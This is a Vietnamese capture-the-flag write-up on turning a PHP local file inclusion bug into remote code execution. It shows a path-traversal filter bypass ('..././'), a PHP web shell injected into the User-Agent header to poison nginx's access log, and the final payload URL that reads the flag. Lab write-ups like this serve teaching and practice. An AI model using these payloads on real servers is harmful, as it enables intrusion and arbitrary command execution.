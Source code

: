 ```yaml
---
title: PHP inclusion to RCE
categories: [CTF, Cookie Hân Hoan, Write-Up]
tags: [web, write-up, ctf]     # TAG names should always be lowercase
---
```

## Tổng quan

- Để giải được bài này ta cần kiến thức về log poisoning, path traversal
- [`Kỹ thuật Log poisoning để khai thác lỗ hổng File Inclusion (securitydaily.net)`](https://securitydaily.net/0x03-file-inclusion-log-poisoning-code-execution/#:~:text=B%C3%A0i%20vi%E1%BA%BFt%20s%E1%BA%BD%20tr%C3%ACnh%20b%C3%A0y,v%C3%A0o%20t%E1%BB%87p%20tin%20nh%E1%BA%ADt%20k%C3%BD.)
- công cụ: burpsuite

## Phân tích bài

- Khi truy cập vào trang web, như thường lệ, ta test hết các chức năng của nó và nháy view-source, nhưng có vẻ không có thêm được thông tin gì.
- Ta biết được rằng khi bấm vào nút “what is ctf” ta thấy được trên url có 1 tham số là 
`?file=ctf.txt` đảo quanh lại thì chỉ có mỗi thằng này là khai thác được.
- đề cũng hint cho chúng ta là `../` đã bị filter thành `“”`
- dễ thôi, ta dùng `..././` là có thể bypass filter được.

<img src="/assets/writeup/cookie/PHP Inclusion to RCE/0.png">

- Sau khi biết trang web bị lỗi path-traversal ta tiếp tục khai thác nhưng có vẻ hơi bí, vì mục tiêu của bài này là RCE, chứ ko hẳn đơn thuần là tìm flag.txt được giấu.
- Trang web không có chỗ up file, không có thực thi được lệnh để curl ra ngoài cũng như không có thêm chỗ nào có thể khai thác được trừ url bị LFI.
- Lúc này đảo qua 1 chút khái niệm về `untrusted data` và kiến thức về `var/log/nginx/access.log`, áp dụng 2 cái này chúng ta sẽ sử dụng 1 kỹ thuật có tên là **Log Poisoning**
- chúng ta cần biết một chút về máy chủ và cơ chế ghi log của chúng. Một máy chủ web thường chứa một vài dịch vụ khác nhau như SSH, Apache, MySQL, FTP … Hầu hết các dịch vụ này đều có các tệp tin log và được lưu trữ ngay tại máy chủ. Đường dẫn và tên file log tùy thuộc vào hệ điều hành mà máy chủ đang chạy
- Làm thế nào để có thể khai thác các tệp tin nhật ký này? Tất cả các tệp tin nhật ký sẽ đều chứa thông tin về các hoạt động khác nhau, được thực hiện bởi một dịch vụ đang chạy trên hệ thống. Và nếu chúng ta có thể kiểm soát một vài thông tin trong đó, chúng ta có thể tiêm nhiễm các mã độc tùy ý. Việc chèn các mã độc từ xa kết hợp với lỗ hổng Local File Inclusion có thể dẫn đến hậu quả rất nghiêm trọng

<img src="/assets/writeup/cookie/PHP Inclusion to RCE/1.png">

- như hình trên, mình đã tận dũng lỗi LFI đễ có thể vào được thư mục varlog của web, sau đó mình tiến hành thực thi lệnh bằng cụm `&ext=&cmd=ls`
- mình tiêm untrusted data vào trường User-Agent `<?php system($_GET[’cmd’]) ?>`
- lúc này hàm var.log sẽ ghi phiên đăng nhập vào và thực thi mã php

<img src="/assets/writeup/cookie/PHP Inclusion to RCE/2.png">

- payload hoàn chỉnh lấy flag

`?file=ctf.txt..././..././..././..././..././var/log/nginx/access.log&ext&cmd=cat /flag91rEr.txt`

<img src="/assets/writeup/cookie/PHP Inclusion to RCE/3.png">
